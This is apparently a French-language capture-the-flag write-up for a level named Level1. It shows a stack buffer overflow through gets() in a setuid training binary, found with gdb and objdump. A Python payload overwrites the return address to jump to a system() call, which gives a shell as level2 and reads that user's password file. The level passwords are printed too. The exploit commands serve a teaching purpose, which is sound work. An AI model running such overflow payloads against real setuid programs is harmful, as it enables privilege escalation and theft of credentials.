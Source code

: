 # Level1

> login:password -> *`level1:1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a`*
```
:~$ su level1
Password:1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a
```
---

```
:~$ pwd
/home/user/level1
```

```
:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level1` :

```
:~$ ./level1
(input)

:~$ ./level1 test
(input)
```

Avec ou sans paramètre, le binaire attends un input et quitte juste après

```
:~$ gdb level1
...

(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:  push   %ebp
   0x08048481 <+1>:  mov    %esp,%ebp
   0x08048483 <+3>:  and    $0xfffffff0,%esp
   0x08048486 <+6>:  sub    $0x50,%esp
   0x08048489 <+9>:  lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.

(gdb) quit
```

Le binaire appel une fonction `gets()` (+16), vulnerable a un `buffer overflow exploit` pour overwrite le retour de la fonction et enchainer avec notre code.

```
:~$ python -c 'print "a"*76' | ./level1
:~$ Illegal instruction (core dumped)
```

On a effectivement declencher un overflow pour exploiter la vulnerabilite, mais il s'agirait maintenant de reprendre le control.\
On peux utiliser `objdump -d` sur notre binaire pour en comprendre plus ses instructions

```
:~$ objdump -d ./level1
...
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00 
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00 
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret 
```

On trouve alors une fonction `run()` (endian: `08048444`) qui comprends un `fwrite()`, mais surtout un `system()` que l'on pourra exploiter.\
On va alors declencher notre overflow sur l'adresse `08048444` ("\x44\x84\x04\x08") et on l'envoie directement dans le binaire

```
:~$ python -c 'print "a"*76 + "\x44\x84\x04\x08"' | ./level1
:~$ Good... Wait what?
:~$ Segmentation fault (core dumped)

:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
:~$ Good... Wait what?
:~$ (input)

:~$ whoami
:~$ level2

:~$ cat /home/user/level2/.pass
:~$ 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
...
